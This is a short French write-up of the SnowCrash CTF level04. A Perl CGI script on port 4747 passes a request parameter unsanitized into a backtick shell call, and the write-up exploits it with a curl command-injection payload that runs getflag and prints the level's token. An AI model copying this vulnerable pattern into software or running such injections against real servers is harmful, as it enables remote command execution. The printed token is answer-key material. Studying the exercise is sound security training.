 on trouve un fichier .pl qui est un programme perl :

```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

il y a une fonction nommé x qui affiche le contenu de la variable x, et il est écrit en commentaire, que le programme écoute sur le port 4747

```
level04@SnowCrash:~$ curl 10.0.2.15
<html><body><h1>It works!</h1>
<p>This is the default web page for this server.</p>
<p>The web server software is running but no content has been added, yet.</p>
</body></html>
level04@SnowCrash:~$ curl 10.0.2.15:4747

level04@SnowCrash:~$ curl 10.0.2.15:4747 -d x=oui
oui
```

on voit bien que le serveur fait juste un echo sur la variable x

on fait alors une injection shell :

```
level04@SnowCrash:~$ curl '10.0.2.15:4747?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
